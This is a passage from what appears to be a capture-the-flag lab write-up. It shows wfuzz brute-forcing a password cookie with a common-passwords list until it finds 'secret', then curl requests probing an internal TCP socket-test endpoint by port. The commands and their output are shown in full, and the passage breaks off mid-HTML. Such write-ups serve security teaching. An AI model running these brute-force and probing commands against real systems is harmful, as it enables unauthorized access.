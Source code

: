 The response back has a new error message:

> Access denied: password authentication cookie incorrect

So I’ve found the cookie name. Now I need to try to find the value. I’ll use `wfuzz` again, this time hiding 324 character responses with `--hh 324`, since that’s the error message when the cookie is incorrect. This reveals that the password is “secret”:

```

root@kali# wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -H "Cookie: password=FUZZ" --hh 324 http://10.10.10.86:8080
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.86:8080/
Total requests: 10000

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000097:  C=200     21 L       48 W          540 Ch        "secret"

Total time: 25.02369
Processed Requests: 10000
Filtered Requests: 9999
Requests/sec.: 399.6212

```

#### Site

Once I set the cookie `password=secret`, I get a site with a form offering a TCP socket test:

![1540819678302](https://0xdfimages.gitlab.io/img/1540819678302.png)

On entering values, it submits a GET to `/socket?port=[TCP port]&cmd=[Line to send...]`.

I’ll use `curl` to poke at this a bit. First, I’ll play with the port parameter. If I put in port 1, I get back an Internal Server Error 500. But if I put in 21, I get back errors from an FTP server:

```

root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=1&cmd=0xdf'
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>                                  

root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=21&cmd=0xdf'
<!DOCTYPE html>
<html lang="en">
<head>
<title>Internal Dev</title>
        <meta charset="UTF-8">
        <meta name="viewport" content="initial-scale=1, maximum-scale=1, user-scalable=no, width=device-width">                                                                                     
</head>
<body>
<div class="container wrapper">

<p>Status of cache engine: Online</p>
<h4>TCP socket test</h4>
<form action="/socket">
```